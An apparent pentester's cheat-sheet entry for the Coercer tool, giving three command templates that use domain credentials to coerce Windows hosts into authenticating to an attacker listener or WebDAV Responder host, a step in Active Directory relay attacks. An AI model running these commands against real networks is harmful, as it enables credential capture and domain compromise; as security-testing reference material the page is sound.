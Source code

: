 # coercer

% adcs, certificate, windows, Active directory, template

## coercer - list vulns
#plateform/linux #target/remote #cat/RECON
```
coercer.py -d '<domain>' -u '<user>' -p '<password>' --listener <hackerIp> <targetIp> 
```

## coercer - Webdav
#plateform/linux #target/remote #cat/RECON
```
coercer.py -d '<domain>' -u '<user>' -p '<password>' --webdav-host '<ResponderMachineName>' <targetIp> 
```

## coercer - List vulns many targets
#plateform/linux #target/remote #cat/RECON
```
coercer.py -d '<domain>' -u '<user>' -p '<password>' --listener <hackerIp> --targets-file <PathToTargetFile> 
```